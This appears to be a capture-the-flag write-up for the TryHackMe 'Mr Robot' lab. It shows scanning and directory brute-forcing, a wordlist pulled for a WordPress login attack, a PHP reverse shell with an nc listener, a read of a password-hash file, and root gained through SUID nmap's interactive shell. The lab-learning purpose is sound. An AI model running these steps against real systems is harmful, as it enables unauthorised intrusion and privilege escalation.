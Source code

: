 > [!info]
> https://tryhackme.com/room/mrrobot
> IP:10.10.143.217

---
# Recon

## Nmap
```bash
nmap -p- 10.10.143.217 -T5 -vv
```
![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511212353.png)
## Nmap NSE
```bash
sudo nmap 10.10.143.217 -p22,443,80 -sC -sV -T5 --script=http* 
```
![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511215034.png)
## WEB
> [!NOTE]
> Discovered open port 443/tcp on 10.10.143.217
> Discovered open port 80/tcp on 10.10.143.217

```http
http://10.10.143.217:443/
```

![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511212905.png)

```http
http://10.10.143.217:80/
```
![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511212845.png)
### nikto
```bash
nikto -h 10.10.143.217  
```

### FFUF
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://10.10.143.217/FFUZ -ic -c
```

![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511213338.png)

```http
http://10.10.143.217/robots.txt
```

![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511213502.png)
### WP admin panel
```http
http://10.10.143.217/wp-login.php
```


```bash
wget http://10.10.143.217/fsocity.dic
```

```
sort fsocity.dic  | uniq > passwd.txt
```

![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511214529.png)

---
# RCE
![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511214644.png)

```revers shell
https://github.com/pentestmonkey/php-reverse-shell
```

```bash
nc -lnvp PORT
```
# LPE

#### Spawn pty 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:************************************
```

## SUID NMAP
![mrrobot](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/mrrobot/screenshots/20250511214946.png)

```bash
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```
